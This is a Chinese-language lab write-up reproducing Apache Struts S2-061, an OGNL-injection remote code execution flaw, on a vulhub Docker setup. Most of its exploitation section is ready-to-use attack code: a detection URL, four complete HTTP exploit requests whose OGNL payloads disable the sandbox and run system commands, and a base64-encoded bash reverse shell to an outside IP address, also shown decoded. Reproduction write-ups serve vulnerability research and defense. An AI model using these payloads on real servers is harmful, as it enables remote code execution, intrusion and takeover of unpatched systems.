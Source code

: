 # 0x00 软件介绍
struts2：面向java ee的一款java web开发框架

# 0x01 复现环境
使用环境：vulhub中的环境：https://github.com/vulhub/vulhub/tree/master/struts2/s2-061  
复现版本：Apache Struts 2.5.25

# 0x02 环境搭建
一台云上的vps  
git clone https://github.com/vulhub/vulhub  
cd ./vulhub/  
cd ./struts2/  
cd ./s2-061/  
systemctl start docker  
docker-compose up -d

# 0x03 利用条件
此次漏洞只是S2-059修复的一个绕过，并且本次利用的核心类org.apache.commons.collections.BeanMap在commons-collections-x.x.jar包中，但是在官方的最小依赖包中并没有包含这个包。所以即使扫到了支持OGNL表达式的注入点，如果没有使用这个依赖包，也还是没办法进行利用

# 0x04 影响版本
Apache Struts 2.0.0 - Struts 2.5.25

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

浏览器下访问
```
http://ybdt.best:8080/?id=%25%7b+%27test%27+%2b+(2000+%2b+20).toString()%7d
```
查看返回页面的源码，如下图，包含“test2020”表示漏洞存在  
![image](./0.png)  
目前网上有2中利用方式：  
EXP1（第一种利用方式执行命令ls）：  
```
POST /index.action HTTP/1.1
Host: ybdt.best:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("ls")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```
如下图，成功执行命令  
![image](./1.png)  
EXP2（第二种利用方式执行命令id）：  
```
POST /index.action HTTP/1.1
Host: ybdt.best:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.110:8080/index.action
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 1361

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{
(#request.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 
(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) + 
(#request.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +
(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) + 
(#request.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 
(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) + 
(#request.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) + 
(#request.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) +
(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'id'}))
}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```
如下图，成功执行命令  
![image](./2.png)  
EXP3（也可以get方式执行命令）：  
```
?id=%25{(%27Powered_by_Unicode_Potats0%2cenjoy_it%27).(%23UnicodeSec+%3d+%23application[%27org.apache.tomcat.InstanceManager%27]).(%23potats0%3d%23UnicodeSec.newInstance(%27org.apache.commons.collections.BeanMap%27)).(%23stackvalue%3d%23attr[%27struts.valueStack%27]).(%23potats0.setBean(%23stackvalue)).(%23context%3d%23potats0.get(%27context%27)).(%23potats0.setBean(%23context)).(%23sm%3d%23potats0.get(%27memberAccess%27)).(%23emptySet%3d%23UnicodeSec.newInstance(%27java.util.HashSet%27)).(%23potats0.setBean(%23sm)).(%23potats0.put(%27excludedClasses%27%2c%23emptySet)).(%23potats0.put(%27excludedPackageNames%27%2c%23emptySet)).(%23exec%3d%23UnicodeSec.newInstance(%27freemarker.template.utility.Execute%27)).(%23cmd%3d{%27whoami%27}).(%23res%3d%23exec.exec(%23cmd))}
```
如下图，成功执行命令  
![image](./3.png)  
EXP4（使用第一种利用方式反弹shell）：  
```
POST /index.action HTTP/1.1
Host: ybdt.best:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 918

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8zNC45Mi4zNy4xODkvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```
执行后返回值为空，如下图  
![image](./4.png)  
成功反弹shell，如下图  
![image](./5.png)  
其中反弹shell的命令
```
bash -i >& /dev/tcp/34.92.37.189/1234 0>&1
```
需要经过[http://www.jackson-t.ca/runtime-exec-payloads.html](http://www.jackson-t.ca/runtime-exec-payloads.html)这个在线编码网站编码转化一下

# 0x06 踩坑记录
无

# 0x07 参考链接
https://mp.weixin.qq.com/s?__biz=MzkwODE4ODUzMg==&mid=2247483809&idx=1&sn=25e1749f84157647a301cfc870e3a496&chksm=c0cc8fbaf7bb06ac6a737ae1b445a7f102c12bccd1dd1b6947010cc566c222c83ca64ddaf55a&mpshare=1&scene=1&srcid=1217bML3jQDfcn08CNPB108Z&sharer_sharetime=1608161016302&sharer_shareid=2b3eb33f35dafb832c1be951576d9620&exportkey=AZZR%2F5D7iQswX%2FWvZ%2FReXw4%3D&pass_ticket=VW8a7oy0erYiAAYDw5uunYHI68W6JFU%2B8rOOlOztJ0ArCwSyttvTe%2BlX1ZOnHwv7&wx_header=0#rd  
https://www.cnblogs.com/backlion/p/14122528.html
